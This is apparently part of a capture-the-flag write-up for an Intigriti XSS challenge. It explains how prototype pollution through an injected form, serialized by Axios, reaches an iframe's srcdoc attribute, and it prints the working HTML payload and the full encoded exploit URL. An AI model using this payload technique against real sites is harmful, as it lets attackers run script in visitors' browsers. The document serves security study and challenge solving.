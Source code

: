 <div>
    <img src="images/step-5.png" alt="Step Five" width="400">
</div>

### Step 4: Crafting Payload

By injecting a `<form>` with the id "search," it was observed that Axios was sending form data to the server. Prototype pollution was exploited by injecting a malicious payload into the form data. Initially, the payload manipulation was constrained to cases where the server returned an empty array due to no results. However, a closer examination revealed that manipulation of the payload values, undergoing jQuery sanitization, allowed the injection of XSS using the `srcdoc` attribute of an iframe element.

**Final Payload on `name` Parameter:**

```html
<form id="search">
    <input name="__proto__.[srcdoc]" value="<script>alert(parent.window.location.origin)</script>">
    <input name="__proto__.[srcdoc]" value="">
    <input name="__proto__.homepage" value="https://example.com">
    <input name="__proto__.owner.avatar_url" value="true">
</form>
```

https://challenge-0124.intigriti.io/challenge?name=%3Cform%20id=%22search%22%3E%3Cinput%20name=%22__proto__.[srcdoc]%22%20value=%22%3Cscript%3Ealert(parent.window.location.origin)%3C/script%3E%22%3E%3Cinput%20name=%22__proto__.[srcdoc]%22%20value=%22%22%3E%3Cinput%20name=%22__proto__.homepage%22%20value=%22https://example.com%22%3E%3Cinput%20name=%22__proto__.owner.avatar_url%22%20value=%22true%22%3E%3C/form%3E&search=binaryjs

### Step 5: XSS Exploitation

The crafted payload successfully exploited the XSS vulnerability, triggering the execution of a script and demonstrating the impact of prototype pollution on the application.
